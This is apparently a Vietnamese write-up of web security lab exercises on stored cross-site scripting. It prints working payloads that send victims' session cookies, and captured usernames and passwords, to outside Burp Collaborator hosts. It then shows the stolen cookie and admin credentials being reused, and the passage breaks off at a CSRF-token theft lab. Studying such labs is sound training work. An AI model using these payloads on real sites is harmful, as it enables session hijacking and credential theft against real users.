 Bước 1: Chuyển đến tab the Collaborator, nhấn vào Copy to clipboard

Bước 2: Gửi nội dung sau vào blog:
```
<script>
fetch('https://1kmlk85vcr4wxtot3mjir0sxdojf7kv9.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
Tập lệnh này sẽ gửi yêu cầu POST chứa cookie của bất kỳ ai xem bình luận đến tên miền phụ của bạn trên máy chủ Collaborator công khai.

Bước 3: Quay lại Collaborator. Ghi lại giá trị cookie của nạn nhân trong nội dung POST.
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/7d32d32d-eccf-4c31-bfe4-576155ef7714" />
Giá trị cookie: `3XsEYKip1OGABghv3wdMZRm1y0fT5a0H`

Bước 4: Tải lại trang blog chính, sử dụng Burp Repeater để thay thế cookie phiên của ta bằng cookie ta đã ghi lại trong Burp Collaborator. 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/13dda52b-e65f-4e72-9382-55d6d703bd34" />
Ta cũng có thể dùng cùng một cookie trong yêu cầu /my-account để tải trang tài khoản của người dùng quản trị
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3f18300c-287a-411b-a609-913de28201f4" />

#### 4.2 Khai thác tấn công cross-site scripting để lấy mật khẩu
Bước 1: Nhập bình luận sao vào hộp blog:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://fatzamv925uan7e7t09wheib329t8hy5n.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
Tập lệnh này sẽ gửi yêu cầu POST có chứa tên người dùng và mật khẩu tới tên miền phụ của máy chủ Collaborator công khai cho bất kỳ ai xem bình luận.
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/48819c2f-e971-4772-bc75-1933126fdb7e" />
- Ta có được tên người dùng là: administrator
- Mật khẩu là : 0kmwb3gtjxe1q5z8uc2c

Bước 2: Sử dụng thông tin để đăng nhập
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/510a036d-28b4-4f59-8389-172ce9c7a49b" />

#### 4.3 Khai thác tấn công cross-site scripting để vượt qua các biện pháp bảo vệ CSRF
Bài lab này khai thác lỗ hổng này để đánh cắp mã thông báo CSRF, sau đó ta có thể sử dụng mã thông báo này để thay đổi địa chỉ email của người xem bình luận trên bài đăng trên blog
